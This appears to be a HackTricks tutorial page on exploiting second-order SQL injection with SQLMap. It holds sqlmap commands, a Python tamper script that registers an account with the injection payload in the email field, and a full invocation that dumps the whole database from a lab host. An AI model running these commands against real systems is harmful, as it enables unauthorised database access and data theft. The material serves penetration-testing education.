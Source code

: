 # Second Order Injection with SQLMap
{{#include /banners/hacktricks-training.md}}


{{#include ../../../banners/hacktricks-training.md}}

**SQLMap can exploit Second Order SQLis.**\
You need to provide:

- The **request** where the **sqlinjection payload** is going to be saved
- The **request** where the **payload** will be **executed**

The request where the SQL injection payload is saved is **indicated as in any other injection in sqlmap**. The request **where sqlmap can read the output/execution** of the injection can be indicated with `--second-url` or with `--second-req` if you need to indicate a complete request from a file.

**Simple second order example:**

```bash
#Get the SQL payload execution with a GET to a url
sqlmap -r login.txt -p username --second-url "http://10.10.10.10/details.php"

#Get the SQL payload execution sending a custom request from a file
sqlmap -r login.txt -p username --second-req details.txt
```

In several cases **this won't be enough** because you will need to **perform other actions** apart from sending the payload and accessing a different page.

When this is needed you can use a **sqlmap tamper**. For example the following script will register a new user **using sqlmap payload as email** and logout.

```python
#!/usr/bin/env python

import re
import requests
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def login_account(payload):
    proxies = {'http':'http://127.0.0.1:8080'}
    cookies = {"PHPSESSID": "6laafab1f6om5rqjsbvhmq9mf2"}

    params = {"username":"asdasdasd", "email":payload, "password":"11111111"}
    url = "http://10.10.10.10/create.php"
    pr = requests.post(url, data=params, cookies=cookies, verify=False, allow_redirects=True, proxies=proxies)

    url = "http://10.10.10.10/exit.php"
    pr = requests.get(url, cookies=cookies, verify=False, allow_redirects=True, proxies=proxies)

def tamper(payload, **kwargs):
    headers = kwargs.get("headers", {})
    login_account(payload)
    return payload
```

A **SQLMap tamper is always executed before starting a injection try with a payload** **and it has to return a payload**. In this case we don't care about the payload but we care about sending some requests, so the payload isn't changed.

So, if for some reason we need a more complex flow to exploit the second order SQL injection like:

- Create an account with the SQLi payload inside the "email" field
- Logout
- Login with that account (login.txt)
- Send a request to execute the SQL injection (second.txt)

**This sqlmap line will help:**

```bash
sqlmap --tamper tamper.py -r login.txt -p email --second-req second.txt --proxy http://127.0.0.1:8080 --prefix "a2344r3F'" --technique=U --dbms mysql --union-char "DTEC" -a
##########
# --tamper tamper.py : Indicates the tamper to execute before trying each SQLipayload
# -r login.txt : Indicates the request to send the SQLi payload
# -p email : Focus on email parameter (you can do this with an "email=*" inside login.txt
# --second-req second.txt : Request to send to execute the SQLi and get the ouput
# --proxy http://127.0.0.1:8080 : Use this proxy
# --technique=U : Help sqlmap indicating the technique to use
# --dbms mysql : Help sqlmap indicating the dbms
# --prefix "a2344r3F'" : Help sqlmap detecting the injection indicating the prefix
# --union-char "DTEC" : Help sqlmap indicating a different union-char so it can identify the vuln
# -a : Dump all
```

{{#include ../../../banners/hacktricks-training.md}}
